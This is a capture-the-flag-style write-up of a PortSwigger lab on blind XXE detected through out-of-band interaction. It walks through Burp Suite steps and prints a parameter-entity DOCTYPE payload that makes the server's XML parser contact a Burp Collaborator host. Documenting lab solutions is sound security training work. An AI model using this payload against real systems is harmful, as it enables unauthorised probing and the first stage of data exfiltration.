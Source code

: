 # Blind XXE with out-of-band interaction via XML parameter entities

## Description

[This lab](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities) has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

## Reproduction and proof of concept

1. Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite Professional.
2. Go to the Burp menu, and launch the Burp Collaborator client.
3. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
4. Insert the following external entity definition in between the XML declaration and the ``stockCheck`` element, but insert your Burp Collaborator subdomain where indicated:

```text
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net"> %xxe; ]>
```

![XXE](/_static/images/xxe8.png)

5. Go back to the Burp Collaborator client window, and click "Poll now". You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

![XXE](/_static/images/xxe9.png)

If you don't see any interactions listed, wait a few seconds and try again. 

## Exploitability

An attacker needs to use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator. _Note: To prevent the Academy platform being used to attack third parties, the firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server._
